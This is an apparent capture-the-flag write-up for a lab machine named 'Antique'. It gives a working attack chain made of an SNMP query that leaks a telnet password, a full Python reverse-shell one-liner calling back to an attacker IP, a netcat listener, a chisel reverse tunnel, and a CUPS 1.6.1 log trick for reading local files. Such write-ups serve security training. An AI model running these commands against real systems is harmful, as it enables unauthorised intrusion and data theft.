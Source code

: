 # Antique Write-Up

Easy

Tags:
`SNMP`
`Chisel`
`Cups 1.6.1`


## Intro

1. Simple Network Monitoring Protocol vulnerability
2. Python reverse shell
3. Chisel tunnel to forward port
4. Cups 1.6.1 vuln - read local file

## Exploit

### Port scanning

```
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
```

### Get telnet password via SNMP vuln

```
snmpget -v 1 -c public 10.10.11.107 1.3.6.1.4.1.11.2.3.9.1.1.13.0 
```

Telnet password: `P@ssw0rd@123!!123`

Python shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Netcat listener

```
nc -lvnp 4444
```

## Privilege Escalation

```
netstat -ant
```

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN     
tcp        0      0 10.10.11.107:23         10.10.16.5:46726        ESTABLISHED
tcp        0    150 10.10.11.107:57140      10.10.16.5:1234         ESTABLISHED
tcp6       0      0 ::1:631                 :::*                    LISTEN
```

Use `chisel` tunnel. Drop `chisel` for victim, change the access permissions of `chisel` file.

```
chmod a+x chisel
```

Run server on attacker

```
sudo ./chisel server --port 8000 --reverse 
```

Run client on victim

```
./chisel client 10.10.16.5:8000 R:631:127.0.0.1:631
```

Cups 1.6.1 Vuln

```
cupsctl ErrorLog="<path>"
```

```
curl http://localhost:631/admin/log/error_log?
```